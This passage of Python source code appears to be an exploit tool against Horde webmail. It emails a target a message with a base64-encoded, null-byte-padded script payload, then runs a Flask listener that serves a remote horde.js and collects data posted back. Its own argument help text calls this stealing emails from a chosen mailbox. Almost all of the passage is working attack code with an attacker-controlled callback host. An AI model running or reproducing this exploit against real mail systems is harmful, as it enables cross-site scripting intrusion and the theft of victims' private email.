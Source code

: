                     except:
                        pass
                response.headers['Access-Control-Allow-Origin'] = '*'
                return response

            payload = 'var
    s=document.createElement("script");s.type="text/javascript";s.src="{}/{}";document.head.append(s);'.format(self.callback['url'],
    self.listener['horde'])
            payload =
    '<script>eval(atob("{}"))</script>'.format(base64.b64encode(payload.encode('latin-1')).decode('latin-1'))
            content = 'Subject: {}\nFrom: {}\nTo: {}\n'.format(self.subject,
    self.smtp['username'], self.target)
            # The secret services :)
            content +=
    'X\x00\x00\x00{}\x00\x00\x00X'.format(base64.b64encode(payload.encode('latin-1')).decode('latin-1'))
            self.server.sendmail(self.smtp['username'], self.target, content)
            app = Flask(__name__)
            app.add_url_rule('/{}'.format(self.listener['horde']), 'horde',
    horde)
            app.add_url_rule('/{}'.format(self.callback['path']), 'callback',
    callback, methods=['POST'])
            logging.getLogger('werkzeug').setLevel(logging.ERROR)
            cli = sys.modules['flask.cli']
            cli.show_server_banner = lambda *x: None
            try:
                if self.listener['ssl']:
                    app.run(host=self.listener['host'],
    port=self.listener['port'], ssl_context=('cert.pem', 'key.pem'))
                else:
                    app.run(host=self.listener['host'],
    port=self.listener['port'])
            except:
                pass

    if __name__ == '__main__':
        parser = argparse.ArgumentParser()
        parser.add_argument('--smtp', help='SMTP URL', required=True,
    metavar='URL')
        parser.add_argument('--callback', help='Callback URL', required=True,
    metavar='URL')
        parser.add_argument('--listener', help='Listener URL', metavar='URL')
        parser.add_argument('--target', help='Target email', required=True,
    metavar='EMAIL')
        parser.add_argument('--subject', help='Email subject',
    metavar='SUBJECT')
        parser.add_argument('--mailbox', help='Mailbox from which to steal the
    emails', metavar='INBOX')
        args = parser.parse_args()
        exploit = Exploit(args)
        exploit.trigger()
    horde.js
